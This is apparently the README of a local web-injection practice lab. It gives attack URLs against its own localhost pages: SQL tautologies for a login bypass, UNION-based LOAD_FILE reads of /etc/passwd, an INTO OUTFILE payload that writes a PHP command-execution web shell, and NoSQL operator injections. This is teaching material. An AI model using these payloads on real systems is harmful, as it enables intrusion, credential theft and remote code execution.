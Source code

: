 # Start

Start the network with `./start_linux_network.sh`. You have to wait a bit until the databases are populated.

# SQL

## Overview

To get an overview of the examples goto http://127.0.0.1:8781/

# Listing Example

## Standard query

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100)

## Attack

### Verification

Error when calling this url:

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100%27)

### List all products

[http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100' OR '1'='1](http://127.0.0.1:8781/inf_disclosure/specific_table/list_products.php?value=100'+OR+'1'='1)

# Login Example

## Standard

[http://127.0.0.1:8781/login/login.php](http://127.0.0.1:8781/login/login.php)

Enter 'admin', 'admin'

## Attack

### Verification

Enter some credentials. Check url.

Error when calling this url:

[http://127.0.0.1:8781/login/login.php?user=user'&password=pass'](http://127.0.0.1:8781/login/login.php?user=user'&password=pass')

### Circumvent Login

[http://127.0.0.1:8781/login/login.php?user=admin&password=xyz' OR '1'='1](http://127.0.0.1:8781/login/login.php?user=admin&password=xyz'+OR+'1'='1)

# File Attacks

## Standard

[http://127.0.0.1:8781/load_file/list_users.php?UserID=2](http://127.0.0.1:8781/load_file/list_users.php?UserID=2)

## Verification

Check if you can do a [`UNION SELECT`](https://www.techonthenet.com/sql/union_all.php) (add numbers at the end of the line until the query works 1, then 1,2, then 1,2,3 and s forth...):

[http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT 1,2,3](http://127.0.0.1:8781/load_file/list_users.php?UserID=1+UNION+ALL+SELECT+1,2,3)

## Read sensible files

If file permissions are set to db user (e.g. logged in as root or `GRANT FILE ON *.* TO 'user'@'%';` is set):

Use `LOAD_FILE`:

http://127.0.0.1:8781/load_file/list_users.php?UserID=1%20UNION%20ALL%20SELECT%20LOAD_FILE(%27/etc/passwd%27),2,3

`http://127.0.0.1:8781/load_file/list_users.php?UserID=1 UNION ALL SELECT LOAD_FILE('/etc/passwd/'),2,3`

## Write code to server

Using LAMP Server:

### Standard

[http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2](http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2)

### Attack

Use `INTO OUTFILE`:

http://127.0.0.1:8782/into_outfile/list_users.php?UserID=2%20UNION%20SELECT%201,2,%27%3C?php%20system($_REQUEST[%22cmd%22]);%20?%3E%27%20INTO%20OUTFILE%20%27/var/www/html/cmd.php%27

`/var/www/html/cmd.php` should not exist before.

After that you can check remote code execution with:

http://127.0.0.1:8782/cmd.php?cmd=ls

# Generic Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php](http://127.0.0.1:8781/inf_disclosure/generic/show_timesheet.php)

## Attack

[http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users](http://127.0.0.1:8781/inf_disclosure/generic/show_employee_table.php?column1=AdminRights&column2=User&column3=Password&table=Users)

# Form Skip Attack

## Standard

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php)

Form to choose a customer showing soft skills

## Verification

[http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param='](http://127.0.0.1:8781/inf_disclosure/form_steps/forms.php?form=form2&param=')

# NoSQL

To get an overview of the examples goto http://127.0.0.1:8782/

## Get all products

- [http://127.0.0.1:8782/products.php?product[$gt]=%22%22](http://127.0.0.1:8782/products.php?product[$gt]=%22%22)
- [http://127.0.0.1:8782/products.php?product[$ne]=1](http://127.0.0.1:8782/products.php?product[$ne]=1)

## Get all credentials / Potential login bypass

- [http://127.0.0.1:8782/users.php?user[$ne]=1&pass[$ne]=1](http://127.0.0.1:8782/users.php?user[$ne]=1&pass[$ne]=1)
